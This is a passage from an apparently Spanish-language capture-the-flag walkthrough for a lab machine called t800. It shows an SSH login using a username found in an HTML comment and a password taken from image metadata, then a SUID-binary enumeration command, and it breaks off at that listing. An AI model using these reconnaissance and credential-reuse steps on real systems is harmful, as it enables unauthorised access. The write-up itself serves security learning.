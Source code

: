 Veremos algo muy interesante en los `metadatos` y es que hay unas credenciales en ellos, por lo que vamos a probarlo con el servidor `SSH` de la siguiente forma:

### SSH

Si miramos en la pagina principal el codigo veremos esta parte del codigo en `HTML`:

```html
<!-- Im ruut-->
```

Vemos lo que parece ser un nombre de usuario, por lo que vamos a probarlo por `SSH`.

```shell
ssh ruut@<IP> -p 800
```

Metemos como contraseña `chmodxheart` y veremos que estamos dentro.

Info:

```
The authenticity of host '[192.168.28.22]:800 ([192.168.28.22]:800)' can't be established.
ED25519 key fingerprint is SHA256:NQDCK+YQrbsHYi1VtpjQA0dziHvQ5rqh5HTcD1GL/lo.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[192.168.28.22]:800' (ED25519) to the list of known hosts.
ruut@192.168.28.22's password: 
Linux t800 4.19.0-14-amd64 #1 SMP Debian 4.19.171-2 (2021-01-30) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Apr  8 08:20:55 2021 from 192.168.1.58
ruut@t800:~$ whoami
ruut
```

## Escalate user superruut

Si listamos los permisos `SUID` veremos lo siguiente:

```shell
find / -type f -perm -4000 -ls 2>/dev/null
```

Info:

```
137981    704 -rwsr-sr-x   1 root     root       718872 May 15  2018 /usr/bin/conky
   131121     64 -rwsr-xr-x   1 root     root        63736 Jul 27  2018 /usr/bin/passwd
   134473     44 -rwsr-xr-x   1 root     root        44440 Jul 27  2018 /usr/bin/newgrp
   134620     64 -rwsr-xr-x   1 root     root        63568 Jan 10  2019 /usr/bin/su
   134946     52 -rwsr-xr-x   1 root     root        51280 Jan 10  2019 /usr/bin/mount
   137759     20 -rwsr-xr-x   1 root     root        19016 Mar 27  2018 /usr/bin/calife
   131120     84 -rwsr-xr-x   1 root     root        84016 Jul 27  2018 /usr/bin/gpasswd
   131118     44 -rwsr-xr-x   1 root     root        44528 Jul 27  2018 /usr/bin/chsh
   131117     56 -rwsr-xr-x   1 root     root        54096 Jul 27  2018 /usr/bin/chfn
   134948     36 -rwsr-xr-x   1 root     root        34888 Jan 10  2019 /usr/bin/umount
   146938    428 -rwsr-xr-x   1 root     root       436552 Jan 31  2020 /usr/lib/openssh/ssh-keysign
   268129     12 -rwsr-xr-x   1 root     root        10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
   135697     52 -rwsr-xr--   1 root     messagebus    51184 Jul  5  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
```
